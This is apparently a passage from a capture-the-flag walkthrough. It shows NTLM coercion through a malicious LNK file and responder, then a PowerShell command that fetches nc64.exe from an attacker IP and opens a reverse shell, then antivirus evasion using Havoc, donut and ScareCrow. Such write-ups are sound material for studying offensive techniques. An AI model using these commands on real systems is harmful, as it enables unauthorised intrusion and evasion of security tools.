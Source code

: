 We can upload  a malicious lnk to coerce authentication from the user who'll open  this file, the lnk file  can be done created manually from windows

<img src="https://i.imgur.com/ia5ATYB.png"/>

Uploading and running `responder` 

<img src="https://i.imgur.com/lQYR3jK.png"/>

However this hash cannot be cracked

<img src="https://i.imgur.com/gfz0r0m.png"/>

## Gaining shell as E.Klaymore

But we don't need to crack this hash neither relay it as we can execute commands from lnk file, we can try to make a request on our python server

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c Invoke-WebRequest -Uri 10.8.0.136 -OutFile C:/Windows/Temp/test
```

<img src="https://i.imgur.com/qUSMpAk.png"/>

Now testing out to get a shell with nc

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c Invoke-WebRequest -Uri 10.8.0.136/nc64.exe -OutFile C:/Windows/Temp/nc.exe;C:/windows/Temp/nc.exe 10.8.0.136 2222 -e powershell.exe
```

From this we do get a connection back but commands don't run, most probably this has AV enabled

<img src="https://i.imgur.com/GxuzRTw.png"/>

For bypassing this, I used havoc payload and, generating raw shell code using donut and obfuscating it through Scarecrow

<img src="https://i.imgur.com/94DZP1n.png"/>

```bash
donut -i payload.exe -a x64 -o payload.bin
```

<img src="https://i.imgur.com/A6DbTSj.png"/>

```bash
ScareCrow -I ./payload.bin --domain microsoft.com
```

<img src="https://i.imgur.com/r2gf7VO.png"/>

<img src="https://i.imgur.com/ntTYVDH.png"/>

On havoc we'll get a beacon as E.klaymore, running `whoami /all` to check the privileges
